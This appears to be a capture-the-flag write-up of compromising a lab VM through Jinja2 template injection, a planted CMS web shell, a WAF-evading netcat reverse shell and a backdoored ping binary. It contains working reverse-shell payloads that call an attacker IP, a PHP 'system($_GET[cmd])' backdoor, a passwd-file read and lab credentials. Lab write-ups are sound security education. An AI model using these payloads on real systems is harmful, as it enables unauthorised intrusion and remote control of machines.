## Nmap



Okay so this is a very shot output from nmap. Let's just start our enumeration from HTTP service.

***

## HTTP


It's a bit cool looking website. I did a gobuster scan on it and found few directories.



I got weird looking Mr. Bean everytime I tried to visit those URLS.

Like I got the following one when I tried visiting `/login`.


I tried to do lot of things like XXE via Contact form but there were only xml headers but nothing in the body. Then I found parameters like `purchase` or `Live+demo` and `Get+Now` so I tried to do LFI/RFI via those but that also didn't worked.

When we click on `Login` we get two fields to enter username and password so I tried to do SQLi on those but that also didn't worked. So this was the time to ask [@4nqr34z](https://twitter.com/4nqr34z) for hint. He said `test for SSTI`. I entered `IP/{{ 7+7 }}` and got error saying there is no URL `IP/14`, this mean it's vulnerable to SSTI.


Then it was time to identify which template this is using. So I entered `{{7*'7'}}`, now if this was `twig` then it would return `49` but `jinja2` would return `7777777`.



Since the output is `/7777777` not found meaning this is a jinja2 template.
Then I tried to execute things from [payloadallthethings/TemplateInjection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection) but nothing worked.

Then I came across [flask/SSTI](https://github.com/vulhub/vulhub/tree/master/flask/ssti) which had the following jinja template code

```python


  
  
    
      {{ b['eval']('__import__("os").popen("id").read()') }}
    
  
  


```

Now wtih that I was able to get the RCE.



__Focus on the highlighted part__

With this I was able to execute lot of commands but I was not able to get reverse shell. Then [@theart42](https://twitter.com/theart42) shared the command that would give reverse shell.

```
{{''.__class__.__mro__[1].__subclasses__()[373]("bash -c 'bash -i >& /dev/tcp/192.168.56.1/4444 0>&1'",shell=True,stdout=-1).communicate()[0].strip()}}
```

That `[373]` is the index of `Subprocess.popen`. With this command I was able to get reverse shell.


***

## Finding New HTTP service

Once I had the reverse shell I tried to download the enumeration script from my system but on the machine there was no curl/wget installed. So I started to look around manaully. I tried to find some SUID or directories accesible by `www-data` but I found nothing interesting.

Then I decided to look at the source of the flask website. In `/srv/flask_app/app.py` I noticed two things.

```python
from pysqlcipher3 import dbapi2 as sqlcipher

app = Flask(__name__)
app.secret_key = 'RmxhZzF7IEltcG9ydGFudCBmaW5kaW5ncyB9'

pra = "pragma key='SecretssecretsSecrets...'"
```
```python

def validate(username, password):
    con = sqlcipher.connect("static/db2.db")
    con.execute(pra)
    completion = False
    with con:
                cur = con.cursor()
                cur.execute("SELECT * FROM Users")
                rows = cur.fetchall()
```
__A small section from app.py__

If we decode the `app.secret_key` we'll find the flag1. `Flag1{ Important findings }`

We can see that there is something called `sqlcipher` used for accessing the db and there is a key called `pragma key` that is being set to `SecretssecretsSecrets...` before accessing the users. So I googled on how to use `sqlcipher` to read encrypted db and found one [Stackoverflow answer](https://stackoverflow.com/a/31503607).

I followed the steps and was able to get the credentials for users.



```
hugh-janus|S0secretPassW0rd
anita-hanjaab|ssdf%dg5xc
clee-torres|asRtesa#2s
RmxhZzN7IEhleSwgcmVhZGluZyBzZWNyZXRzICB9|
```

We know that the last one is the flag. If we decode that base64 we'll find `flag3` i.e `Flag3{ Hey, reading secrets  }`

We know that SSH was filtered in the starting so maybe it's possible that we need to knock some port to open that up. But to find some information about port knocking we'll have to use those credential on login we found on the website.

I logged in as `hugh-janus` and found port number `34979`


But to my surprise the other two accounts had the same port mentioned.


***

Also if we select all on the protected page we'll find the base64 string which have flag2.


`Flag2{ Is this the foothold I have been looking for?}`

***

Now either we have to find other ports somewhere else or maybe we need to try to knock on `34979 34979 34979`. I was confused at this time because obviously I wasn't able to understand what to do with those similar looking number. So I asked for a hint and @andreas told me to do internal network scan of the system. This step took me a lot of time because I was not able to figure out how to do it, because there is no nc or nmap or wget/curl on the container so I can't use those command. one option was to use msf to get the reverse shell and use it's inbuild command or write a python script but with `echo` since there is no editor on the container.

First I did internal pingsweep to find the IP.

```bash
$ for i in {1..254} ;do (ping -c 1 192.168.100.$i | grep "bytes from" &) ;done
```


Then I used `echo` command to make a python script to scan the internal network.

```bash
echo 'import socket' > scan.py
echo 'for port in range(1, 65535):' >> scan.py
echo '    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)' >> scan.py
echo '    sock.settimeout(1)' >> scan.py
echo '    result = sock.connect_ex(("192.168.100.1", port))' >> scan.py
echo '    if 0 == result:' >> scan.py
echo '        print(port)' >> scan.py
echo '    sock.close()' >> scan.py
```





So now we know the open port we can just create a SSH reverse tunnel to see what is on that port.


## Reverse Shell on System

We now know that there is a HTTPs port running locally so now we just need to portforward this so we can see what is happening there.

```bash
ssh -N -R 5444:192.168.100.1:443 mzfr@192.168.56.1
```

With this there will be a remote port forwarding done, so all the traffic on `192.168.100.1:443` can now be opened on `127.0.0.1:5444` on `192.168.56.1`



I tried to use the credentials that I already had but none of them worked. But I was able to login into `Admin panel` using `admin:S0secretPassW0rd`



After login I tried to look around and see if I can find anything interesting. There were some trash files but none of them had anything good. We know that this is a CMS so maybe just like wordpress we could edit templates/plugins to get reverse shell.

I noticed that there was a section called `Module`, now the issue was that we cannot edit any existing module that means we'll have to create our own module to get a reverse shell.

I downloaded [HelloWorld module](https://modules.processwire.com/modules/helloworld/) from processwire repository. Then to get RCE with that we can edit that module.
Do the following to add `exploit` to the module:

* unzip the module.
* open `helloworld.module.php` and in the `init` function you'll notice an empty `else` condition. Add `system($_GET['cmd']);` in that.

```php
    // This last example displays a special hello message when the user is editing
    // the homepage only.
    $this->addHookBefore('ProcessPageEdit::execute', function($event) {
      $page = $event->object->getPage(); // getPage() is a method in ProcessPageEdit
      if($page->id == 1) {
        // user is editing the homepage
        $event->message("Hello {$event->user->name} - You are editing the homepage!");
      } else {
        system($_GET['cmd']);
      }
    });
```

* repack the folder with a zip and then upload the module.



Then just install the module. Once the module is installed go to `page` and edit any page and then and `&cmd=ls` to the URL.

I edited the `site map` to get the RCE.


I tried to do `nc -e /bin/sh IP PORT` to get the reverse shell but it didn't worked. I tried various kind of code to get reverse shell but nothing worked. Then @andreaz suggested that I try to use `wafw00f` to see if there is some kind of WAF in action.



This mean we need some kind of encoding or special characters in out commands to be able to bypass the WAF.

I did `&cmd=cat%20/etc$u/passwd`



Now I was sure that WAF is killing my normal shell command so I made another one for `netcat`.

```
/???/n?t??t+-e+/???/?h+3232249857+1234
```


That command is equivalent to `/bin/netcat -e /bin/sh 192.168.56.1 1234`. I converted that IP address to a simple decimal.

## Privilege escalation

Since I was in the system I downloaded the enumeration script and ran it to see if I can find anything to exploit.

I found 2 SUIDs



but those are used by system and are not exploitable.

After some look around I found a png file named `beverlie.png` in `/var/backup`



I used python's `http.server` to download the image and found out that it was actually a QR code.


After scanning the QR I got

```
otpauth://totp/beverlie@TF3?secret=76RA4HDNUVXN2ZD7TWAGJUHG2Q&issuer=TF3
```

I then used [google authenticator app](https://play.google.com/store/apps/details?id=com.google.android.apps.authenticator2&hl=en_IN) to scan that QR code, that gave me different OTP every minute or so.

So now I can login into `beverlie's` account and enter the OTP to login.





so now we are in the machine but as `beverlie`. The first thing I did was to check the `sudo right`



This could be the same `addcustomer` script that we came to know about from website on running using processwire CMS.



So this is not exploitable alone. We need to use this `addcustomer` and the suid we found i.e `ping` to get root shell.

@andreaz gave me hint that I should analyze the `/bin/ping` to understand my path. So I downloaded the binary and opened up in IDA. We can see a function that is printing `Enjoy your root shell h4x0r`.



Before this function there is a `UID` check involved.



Here the comparision is done to `3F2` i.e `1010`. So basically we have to be a user whose `uid` is 1010 to get the shell through this, but there is one more thing. There is some other payload check that is done. A pattern in `ping` command has to match with `deadbeef` then only we'll get root shell.

But before that we need to find a way to be `user` having `uid` 1010. We cannot use `/root/scripts/addcustomer` because in that the very first check was that `uid` must be below `1200`.

I started looking around and then I noticed that there is a file named `...` in `/`.



But the user was set to `1337` uid. That means we can make a new user having uid 1337 and read that file.

I used `sudo /root/scripts/addcustomer` to make a user with uid 1337.
If we look at the entry on `/etc/passwd` we can see that `1337` is for user called `hack` and the uid we are focusing on i.e `1010` is for user `nial`.


Once I had a user with 1337 UID I was able to read the file `...`, it was a private key.



For a minute I couldn't think of a username but then I realized that we want to be `nial` so maybe it's for that user.

```bash
ssh nial@192.168.100.1 -p 40447 -i /...
```



Once I was `nial` all I had to do was run

```bash
ping -p deadbeef 127.0.0.1
```

and I got root shell.






***

It was an amazing machine. From start to end it's confusing but at the same time it's very realistic, I mean the way we get to exploit the OTP generation thing is super real.

I really enjoyed doing this VM, Thanks to [@4nqr34z](https://twitter.com/4nqr34z) and [@theart42](https://twitter.com/theart42) for making this VM and letting me beta test it ;-)

***

Thanks for reading, Feedback is always appreciated.

Follow me [@0xmzfr](https://twitter.com/0xmzfr) for more “Writeups”. And if you'd like to support me considering [donating](https://mzfr.github.io/donate/) 😄
